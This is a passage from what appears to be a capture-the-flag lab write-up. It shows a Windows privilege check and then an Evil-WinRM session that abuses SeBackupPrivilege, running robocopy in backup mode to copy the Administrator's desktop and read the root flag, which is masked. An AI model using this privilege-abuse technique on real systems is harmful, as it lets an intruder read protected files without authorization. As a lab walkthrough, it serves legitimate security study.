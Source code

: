 ```powershell
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

Checking our privileges, we see that we have the `SeBackupPrivilege`. With these privileges we can backup the desktop of Administrator.

```powershell
*Evil-WinRM* PS C:\temp> robocopy C:\Users\Administrator\Desktop . /b

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, June 11, 2020 12:41:22 PM
   Source : C:\Users\Administrator\Desktop\
     Dest : C:\temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           2    C:\Users\Administrator\Desktop\
            New File                 488        desktop.ini
  0%
100%
            New File                  34        root.txt
  0%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         2         2         0         0         0         0
   Bytes :       522       522         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00
   Ended : Thursday, June 11, 2020 12:41:22 PM
```

After backing up the desktop, we can read `root.txt`.

```powershell
*Evil-WinRM* PS C:\temp> dir


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/11/2020   3:37 AM             34 root.txt


*Evil-WinRM* PS C:\temp> type root.txt
001e7***************************
```